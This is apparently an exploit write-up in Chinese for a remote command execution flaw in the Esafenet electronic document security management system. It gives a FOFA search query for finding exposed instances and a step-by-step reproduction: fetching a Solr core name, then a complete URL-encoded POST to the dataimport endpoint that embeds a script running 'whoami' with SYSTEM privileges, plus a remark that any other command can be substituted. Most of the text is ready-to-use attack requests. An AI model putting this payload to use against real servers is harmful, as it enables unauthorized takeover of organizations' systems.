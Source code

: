 ## 亿赛通 电子文档安全管理系统远程命令执行漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 dataimport 存在远程命令执行漏洞，攻击者通过构造特定的请求可执行任意命令

## 漏洞影响

> 亿赛通电子文档安全管理系统

## FOFA

> title="电子文档安全管理系统"

## 漏洞复现

登录界面如下：

![1](resource/亿赛通电子文档安全管理系统/1.png)

首先我们需要访问以下URL来获取一个name的值：

```
/solr/admin/cores
```

![2](resource/亿赛通电子文档安全管理系统/2.png)

然后我们需要打开三剑客之一的BURP

使用POST请求，请求以下URL：

```
/solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20
```

其中开头的/sorl/**/dataimport之中的*为刚刚的name值。

仔细查看后面的代码，我这里填写的whoami，在那里替换成其他命令即可。

然后再填写POST一个xml文件流，为：

```
<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>
```

我这里只为测试，执行whoami命令

![3](resource/亿赛通电子文档安全管理系统/3.png)

可以看到返回了系统权限，NT也就是windows系统。